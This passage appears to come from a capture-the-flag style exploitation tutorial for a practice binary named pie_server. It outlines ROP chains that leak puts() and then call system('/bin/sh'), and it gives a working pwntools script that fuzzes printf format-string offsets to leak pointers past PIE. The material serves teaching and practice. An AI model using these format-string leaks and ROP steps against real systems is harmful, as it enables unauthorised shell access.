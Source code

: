 This time we will be overwriting the return address with a ROP chain that will call `puts()` to leak out the `puts()` address to go back to the start of the `vuln()` function.

Next, we will do another ROP chain to call `system("/bin/sh")`.

## Fuzz `prinf()` format vuln for PIE address

We can utilize the following script for this.

`fuzz.py`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
piebase
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './pie_server'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warning'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Let's fuzz x values
for i in range(30):
    try:
        p = start()
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendlineafter(b':', '%{}$p'.format(i).encode())
        # Receive the response
        p.recvuntil(b'Hello ')
        result = p.recvline()
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```
